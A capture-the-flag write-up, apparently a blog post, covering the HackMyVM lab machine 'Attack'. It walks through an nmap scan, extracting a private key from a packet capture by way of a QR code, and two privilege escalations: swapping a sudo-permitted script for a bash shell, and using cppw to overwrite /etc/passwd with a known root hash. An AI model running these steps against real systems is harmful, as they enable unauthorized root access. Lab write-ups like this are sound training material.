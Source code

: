 ```yaml
---
layout: post
author: maxin
title:  "Attack"
date:   2022-01-01 09:54:07 PM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Attack)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Thu Dec 30 13:23:08 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.53
Nmap scan report for 192.168.0.53
Host is up (0.018s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f4:8d:08:b4:99:d2:0c:5d:75:b8:22:83:7b:c2:88:15 (RSA)
|   256 e2:16:0a:e7:38:4a:ec:76:cf:d3:56:78:07:fd:2f:25 (ECDSA)
|_  256 0b:5a:9c:71:cc:3b:50:04:46:18:ad:67:8a:df:d0:d6 (ED25519)
80/tcp open  http    nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 13:23:21 2021 -- 1 IP address (1 host up) scanned in 12.96 seconds
{% endhighlight  %}

# Port 80

{% highlight text  %}
I did a capture with wireshark. 
The name of the file is "capture" but i dont remember the extension :(
{% endhighlight  %}

{% highlight bash  %}
wget $IP/capture.pcap
{% endhighlight  %}

# Wireshark

On TCP stream 2. We can see a `zip` file 

File > Export Objects > HTTP → Download the file

This zip has a image and it’s a QRCode, go to [https://zxing.org/w/decode.jspx](https://zxing.org/w/decode.jspx) and decode this image

{% highlight text  %}
http://localhost/jackobattack.txt -> Decoded message
{% endhighlight  %}

# User

{% highlight bash  %}
wget $IP/jackobattack.txt
{% endhighlight  %}

This file it’s the jackob private key 

# Root - Part 1

{% highlight bash  %}
sudo -l

User jackob may run the following commands on attack:
    (kratos) NOPASSWD: /home/jackob/attack.sh
{% endhighlight  %}

We can create a new attack.sh file and add `/bin/bash` inside this file

Changed the file of attack.sh to attack.bkp

Create a new file called attack.sh and add:

{% highlight bash  %}
#!/bin/bash

/bin/bash
{% endhighlight  %}

Now use sudo has kratos

{% highlight bash  %}
sudo -u kratos /home/jackob/attack.sh
{% endhighlight  %}

# Root - Part 2

{% highlight bash  %}
sudo -l

User kratos may run the following commands on attack:
    (root) NOPASSWD: /usr/sbin/cppw
{% endhighlight  %}

The cppw binary allows us to changed passwd or shadow file 

We can use `makepasswd` to create a new passwd and changed `/etc/passwd`  file

{% highlight bash  %}
echo -n "admin123" | makepasswd --crypt-md5 --clearfrom -
{% endhighlight  %}

Get the output password and create a file with it

{% highlight bash  %}
echo "root:\$1\$K8t2noVp\$wwpuT6JnNnPn91vkheLTT0:0:0:root:/root:/bin/bash" > passwdfile
Remember to escape the $
{% endhighlight  %}

{% highlight bash  %}
sudo /usr/sbin/cppw passwdfile
su root #Use the previous password
{% endhighlight  %}